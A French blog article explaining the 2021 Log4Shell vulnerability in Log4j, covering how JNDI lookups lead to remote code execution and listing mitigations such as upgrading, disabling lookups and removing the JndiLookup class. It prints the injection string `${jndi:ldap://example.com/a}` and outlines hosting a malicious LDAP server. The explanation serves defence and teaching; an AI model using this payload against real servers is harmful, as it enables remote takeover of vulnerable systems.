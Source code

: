 Author: Eban
Date: 2021/12/11
Title: Log4j, une vulnérabilité d'une ampleur inédite
Summary: Le 9 décembre 2021, la publication d'une vulnérabilité 0 day baptisée Log4Shell (CVE-2021-44228) a ébranlé le petit monde de la sécurité informatique, nous tacherons de comprendre son fonctionnement et comment s'en prémunir dans cet article.
Slug: log4j
Keywords: sécurité

Le 9 décembre 2021, la publication d'une vulnérabilité 0 day baptisée Log4Shell (CVE-2021-44228) a ébranlé le monde de la sécurité informatique, nous tacherons de comprendre son fonctionnement et comment s'en prémunir dans cet article.

Log4j2 est une librairie Java permettant de générer... des logs, c'est comme le Port-Salut, c'est écrit dessus 😉. Cette librairie est très utilisée par de nombreuses entreprises, comme, pour ne citer qu'elles, Apple, Steam, Twitter, Amazon, Tesla ou encore Microsoft. Le problème est qu'une vulnérabilité a été découverte sur ce logiciel. Cette vulnérabilité était passée jusqu'alors inaperçue, le 9 décembre un utilisateur de Github, `wcc526`, interroge l'auteur d'une pull request la corrigeant à propos de celle ci. S'ensuit la publication d'une CVE et d'un Proof Of Context.

![Message de wcc526 "Is it a security vulnerability"](/static/img/log4j/github.png)

## 💥 Exploitation 

L'exploitation de cette vulnérabilité est triviale, une simple suite de caractères comme `${jndi:ldap://example.com/a}` d'obtenir une RCE (Remote Code Execution) sur le serveur distant.

JNDI est l'acronyme de "Java Naming and Directory Interface", c'est une fonction de Java qui permet d'interroger des directories afin d'obtenir en retour un objet java. Un directory, c'est une sorte de base de donnée principalement utilisée en entreprise qui stocke des informations comme par exemple les utilisateurs, leurs droits, etc. On peut citer ActiveDirectory ou encore LDAP comme exemple de directory bien connu. Java, à travers JNDI, supporte le directory open source bien connu LDAP. La syntaxe `jndi:ldap://example.com/a` interroge le serveur LDAP sur le serveur example.com et va télécharger l'objet a.

La syntaxe `${}`indique à Log4j qu'il faut évaluer ce qui est indiqué entre accolades. Par exemple, `${java:version}` renverra la version de java. Ici, `${jndi:ldap://example.com/a}` indique à Log4j d'évaluer (exécuter) l'objet présent à l'URI `ldap://example.com/a`.

Au vu de ces éléments, il est trivial d'obtenir une RCE sur le serveur distant. Il suffit de monter un serveur LDAP malicieux contenant un objet Java vérolé et de faire en sorte que `${jndi:ldap://SERVEUR/OBJET}` soit loggé.

Cette vulnérabilité est très inquiétante au vu de la facilité avec laquelle elle peut être exploitée. À la découverte de cette dernière, de nombreux bots ont scanné l'ensemble d'Internet à la recherche de serveur vulnérables. Le serveur qui héberge le site web que vous visitez en ce moment a été visité par certains d'entre eux.

![De nombreux bots essayent d'envoyer des payload malveillants](/static/img/log4j/vm01.png)

## 🧑‍🚒 Limiter les dégâts

Il existe plusieurs méthodes afin de mitiger cette faille de sécurité.

La première, la plus évidente, mettre à jour log4j vers la version 2.15.0 qui n'est pas vulnérable.

La seconde, mettre la variable `log4j2.formatMsgNoLookups` à `True`, ceci peut être fait en ajoutant l'argument `‐Dlog4j2.formatMsgNoLookups=True` à la commande permettant de lancer l'application Java.

La troisième, plus radicale, consiste à enlever purement et simplement la classe `JndiLookup` qui est la cause de cette vulnérabilité. Ceci peut être fait avec la commande `zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class` notamment.

Une autre solution plus amusante a été mise en place par Maayan-Sela et cr-mitmit, elle s'appelle `Logout4Shell`, c'est un logiciel en Java qui permet de patcher n'importe quel serveur vulnérable. Le code est disponible [ici](https://github.com/Cybereason/Logout4Shell).

Une autre solution, préventive cette fois, qui aurait pu limiter grandement les dégâts, est de bien cloisonner ses différents services. Ceci peut être fait au moyen de [services systemd renforcés](https://ilearned.eu/systemd-sandboxing.html), ou de technologies de conteneurisation comme Docker.